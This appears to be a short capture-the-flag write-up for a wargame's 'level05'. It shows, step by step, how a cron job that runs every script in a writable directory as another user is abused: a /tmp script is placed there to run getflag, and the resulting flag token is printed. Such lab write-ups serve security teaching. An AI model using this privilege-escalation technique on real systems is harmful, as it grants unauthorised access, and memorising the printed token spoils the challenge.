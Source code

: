 # level05

- We have received a mail with a crontab in it `$ cat /var/mail/level05`

- The crontab execute the script `/usr/sbin/openarenaserver` as flag05 every 2 minutes

- The scipt execute everything in `/opt/openarenaserver`

- We create a script in `/tmp` (`$ vi /tmp/getflag.sh`)
    > #!/bin/bash
    > /bin/getflag > /tmp/flag

- We set it as executable `$ chmod +x /tmp/getflag.sh`

- We create a symbolique link in `/opt/openarenaserver` and we wait 2 min

- `$ cat /tmp/flag`
    > Check flag.Here is your token : viuaaale9huek52boumoomioc

